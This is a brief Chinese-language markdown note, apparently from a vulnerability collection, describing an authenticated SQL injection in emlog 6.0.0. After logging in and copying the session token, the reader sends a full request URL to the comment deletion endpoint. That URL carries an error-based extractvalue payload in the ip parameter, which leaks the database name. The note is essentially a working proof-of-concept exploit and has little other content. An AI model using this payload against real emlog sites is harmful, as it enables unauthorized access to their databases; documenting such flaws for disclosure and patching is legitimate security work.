


### emlog

```
版本信息：6.0.0
```

#### 后台sql注入

登录后找到token值



然后替换token值后请求，

```
admin/comment.php?action=delbyip&token=4eeb0789d73618c2e56c88685e58a8cf&ip=127.0.0.1%27%20and%20(extractvalue(1,concat(0x7e,(select%20database()),0x7e)))%23
```

